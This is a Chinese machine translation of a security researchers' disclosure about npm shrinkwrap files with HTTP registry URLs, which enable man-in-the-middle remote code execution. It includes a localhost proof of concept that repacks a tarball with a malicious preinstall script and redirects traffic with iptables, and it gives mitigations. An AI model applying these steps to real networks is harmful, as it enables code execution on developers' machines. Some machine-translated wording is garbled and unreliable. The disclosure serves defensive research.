


# npm 包膜允许远程执行代码

> 原文：<https://medium.com/hackernoon/npm-shrinkwrap-allows-remote-code-execution-63e6e0a566a7>

如果您安装的 npm 软件包(或它可能依赖的任何软件包)包含带有 HTTP 注册表 URL 的包膜文件(`npm-shrinkwrap.json`)，本地[网络](https://hackernoon.com/tagged/network)攻击者(MITM)可以在您的机器上执行恶意代码。



Stop feeding the MITM squirrel with HTTP URLs in shrinkwrap files. (Photo added to remove other photo from front.)

# 什么是 npm 包膜，有什么问题？

npm 包膜为包维护者提供了一种锁定他们所依赖的包的方法。当您运行`npm shrinkwrap`时，npm 会创建一个`npm-shrinkwrap.json`文件，其中包含关于锁定依赖项的所有信息。当有人安装您的包时，npm 将基于这个包膜文件而不是`package.json`获取依赖项。(假设您在发布前打包了包膜文件。)这太棒了！你想在[制作](https://hackernoon.com/tagged/production)中这样做！

当包膜文件生成时，从其中提取包的注册表(通常是`https://registry.npmjs.org`)的 URL 与模块名称和版本一起保存。例如，在编写本文时，npm 的包膜文件中有一个依赖项:

```
"ansi-regex": {
  "version": "2.0.0",
  "from": "ansi-regex@2.0.0",
  "resolved": "https://registry.npmjs.org/ansi-regex/-/ansi-regex-2.0.0.tgz"
}
```

运行`npm shrinkwrap`后，您应该始终确保解析的 URL 是 HTTPS。不幸的是，人们并不总是这样做，有时这些网址是 HTTP。例如，在撰写本文时，npm 的包膜具有以下依赖性:

```
...
npmlog": {
"version": "4.0.1",
  "from": "npmlog@4.0.1",
  "resolved": "https://registry.npmjs.org/npmlog/-/npmlog-4.0.1.tgz",
  "dependencies": {
    "are-we-there-yet": {
      "version": "1.1.2",
      "from": "are-we-there-yet@>=1.1.2 <1.2.0",
      "resolved": "http://registry.npmjs.org/are-we-there-yet/-/are-we-there-yet-1.1.2.tgz",
      ...
      }
    }
...
```

npmregistry 中的实际 npm 包不包含包膜——所以如果您通过`npm`(即`npm i npm`)安装 npm，就没问题。但是，另一方面，如果你克隆 github repo 并运行`npm install`，你就不是了。更广泛地说，如果您 npm 安装任何具有 HTTP 解析 URL 的包，网络攻击者就可以在您的机器上执行任意代码。

具体来说，当通过 HTTP 获取包(例如`are-we-there-yet`)时，能够实施中间人(MITM)攻击的攻击者可以简单地用他们自己选择的包进行回复，例如，该包可能包含 npm 乐于运行的恶意`preinstall`脚本。

只要攻击者能够访问与您相同的本地网络(例如，您在同一家咖啡店或者他们是您的 ISP)，他们通常就可以改变您的 HTTP 流量。FireSheep 是一个很好的例子，它让人们很容易通过劫持会话来扰乱他人的浏览体验。这有点糟糕，因为它允许攻击者在您的机器上运行代码。下面是一个演示这一点的概念验证攻击。

我们已经通知了一些在 npm 和 github 上有这种 HTTP URLs 的包的组织和用户。我们克隆了 npm 注册表和各种 github 项目来找到这些信息。不幸的是，这意味着可能有我们没有发现的包裹，并可能使您处于危险之中。我们在下面描述一些缓解技术。

# 概念证明攻击

下面是一个使用 npm github repo 的 PoC 攻击，严格运行在 localhost 上。我们描述了受害者和攻击者的步骤。

1.  受害者克隆体`npm`:

```
[https://github.com/npm/npm.git](https://github.com/npm/npm.git)
```

在编写本文时，磁头指向`latest`分支([4d 0473 c 12 E1 f 1448 F3 ca 28 f 157 c 9023 e 2682 df 9d](https://github.com/npm/npm/tree/4d0473c12e1f1448f3ca28f157c9023e2682df9d))。

`[npm-shrinkwrap.json](https://github.com/npm/npm/blob/4d0473c12e1f1448f3ca28f157c9023e2682df9d/npm-shrinkwrap.json#L1468)`文件有一个模块，可以通过 HTTP:

```
"resolved": "http://registry.npmjs.org/are-we-there-yet/-/are-we-there-yet-1.1.2.tgz",
```

这是我们将从我们的 MITM“注册表”中修改和提供的包。

2.攻击者打开一个新的 shell 并设置类似 MITM 注册表的服务器:

```
mkdir mitm
cd mitm
mkdir -p public/are-we-there-yet/-
pushd public/are-we-there-yet/-
wget https://registry.npmjs.org/are-we-there-yet/-/are-we-there-yet-1.1.2.tgz
tar xzvf are-we-there-yet-1.1.2.tgz
# modify package/package.json to add new preisnstall script. For example:
# "preinstall": "echo w00t > /tmp/whodis",
tar czvf are-we-there-yet-1.1.2.tgz package
popd
npm i static-server ./node_modules/.bin/static-server -p8080 public
```

3.攻击者将目的地为`registry.npmjs.org:80`的数据包转发到我们在端口 8080 上运行的 MITM 本地服务器。出于本例的目的，我们使用 iptables 将端口 80 的任何流量转发到 localhost:8080:

```
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -A OUTPUT -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:8080
```

4.受害者在`npm`目录中安装 npm:

```
npm i
```

这将执行我们的`preinstall` 脚本。您可以在加载模块时轻松修改代码并实施攻击，以防受害者在沙箱中安装软件包以防止安装时攻击。

5.攻击者验证`preinstall`脚本并清除:

```
cat /tmp/whodis
sudo iptables -t nat -D OUTPUT -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:8080
```

# 谁受此影响？

任何为带有 HTTP URLs 的`npm-shrinkwrap.json`的包运行`npm install`的人。我们已经确定并通知了许多受此影响的节点组织和用户。我们也通知了国家预防机制，并建议你阅读他们的博客文章。

在让 npm 为难之前，请注意您可能正在使用其他只使用 HTTP 的包管理器，它们可能更容易被利用。

# 我有多大可能会被这个所拥有？

可能不太可能。在 npm 上有 HTTP 注册表 URL 的包的数量似乎很少(大约 360，000 个包的大约 0.03%)。(也就是说，其中一些每月只有几千次下载。)您的攻击者也必须是本地 MITM 您的网络流量。(虽然 SF 咖啡店和训练营里有很多节点开发者。)

# 解决漏洞

如果您的软件包包含带有 HTTP URLs 的包膜文件，请将它们更改为 HTTPS，并遵循 [npm 关于此漏洞](http://blog.npmjs.org/post/154400916805/avoid-http-urls-in-shrinkwrap-files)的博客帖子中的建议。你可能会将你的用户置于危险之中。

当我们向 npm，Inc .报告此事时，我们建议他们为 npm 打补丁，以便自动将 HTTP URLs 升级到他们控制的源的 HTTPS(例如，registry.npmjs.org)。不幸的是，npm 决定不这么做，因为这可能会中断一些用户的工作流程。我们尊重他们有商业理由不静默和自动升级网址。但是，这是以将一些用户置于风险中为代价的。

有人可能会说，将 HTTP URLs 留在包膜文件中的开发人员实际上是将他们的用户置于风险之中的人。不幸的是，似乎很容易忘记检查包覆面提取文件(npm 的包覆面提取文件包含一个 HTTP URL 是这种情况的一些迹象)。而且，作为用户，您不知道 npm 是否会通过 HTTP 获取它的依赖项。当然，您可以下载 tarball 并检查它(它是否有包膜文件以及它是否易受攻击)，但我们怀疑您不会这样做。

那么什么是合理的选择呢？

*   增加了对 HTTPS 自动升级的支持。
*   向包膜添加哈希可能是一个合理的替代选择(假设您通过 HTTPS 获得哈希)。Yarn 这样做是为了他们的 [yarn.lock](https://yarnpkg.com/en/docs/yarn-lock) 文件。
*   禁止通过 HTTP 下载并添加一个`--allow-unsafe-downloads`标志可能是另一种选择。

可能还有其他值得考虑的因素；我们怀疑拉取请求可能会受到欢迎。

这些更改不是对开发人员包膜文件的建议。虽然如果所有开发人员都将其包膜 URL 升级到 HTTPS，问题就会消失，但这并不是一个可靠安全的解决方案；恶意软件包作者仍然可以使用看似良性的包膜文件逃脱攻击。此外，如果您现在简单地重新运行 npm 包膜，并不一定所有的 URL 都是 HTTPS——NPM 默认使用缓存中的 URL，即使它们是 HTTP。如果你想留下一个似是而非可否认的后门，这是一个很好的借口(当攻击源在包本身而不是通过 MITM 注入时，更容易归因于攻击。).除非用户可以禁止通过 HTTP 获取代码(或者对他们下载的内容进行认证)，否则他们仍然面临风险。

# 这个的 CVE 是什么？

没有了。我们认为应该有，所以如果你的组织愿意要求一个(也许因为它受此影响)请与我们联系。

# 我的公司拦截 HTTP 流量并扫描恶意内容—我安全吗？

号码

# 我们是如何披露这一点的？

我们首先给 npm 发了关于这个问题的邮件，然后——大约一周后——给软件包维护者和作者发了邮件，询问我们从 npm 和 github 下载的软件包。我们的目的是给人们足够的时间来修补他们的包膜文件。我们要求人们不要传播这个帖子的私人网址:



Email snippet highlight what you shouldn’t do.

可惜还是有人泄露了这个。如果你是那个人，请考虑捐赠给 [EFF](https://supporters.eff.org/donate) 、 [ToR](https://donate.torproject.org/) 或 [SecureDrop](https://securedrop.org/donate) 来拿回你的一些因果报应点数。

# 我们是谁？

我们( [Fraser](http://web.stanford.edu/%7Emlfbrown/) 、 [Ariana](https://arianamirian.com/) 和 [Deian](https://cseweb.ucsd.edu/%7Edstefan/) )是加州大学圣地亚哥分校和斯坦福大学的安全研究员。

*完整披露:* Deian 有一家创业公司，销售 Node.js 安全产品，防御不受信任的代码。

[](http://bit.ly/HackernoonFB)[](https://goo.gl/k7XYbx)[](https://goo.gl/4ofytp)

> [黑客中午](http://bit.ly/Hackernoon)是黑客如何开始他们的下午。我们是 [@AMI](http://bit.ly/atAMIatAMI) 家庭的一员。我们现在[接受投稿](http://bit.ly/hackernoonsubmission)，并乐意[讨论广告&赞助](mailto:partners@amipublications.com)机会。
> 
> 如果你喜欢这个故事，我们推荐你阅读我们的[最新科技故事](http://bit.ly/hackernoonlatestt)和[趋势科技故事](https://hackernoon.com/trending)。直到下一次，不要把世界的现实想当然！

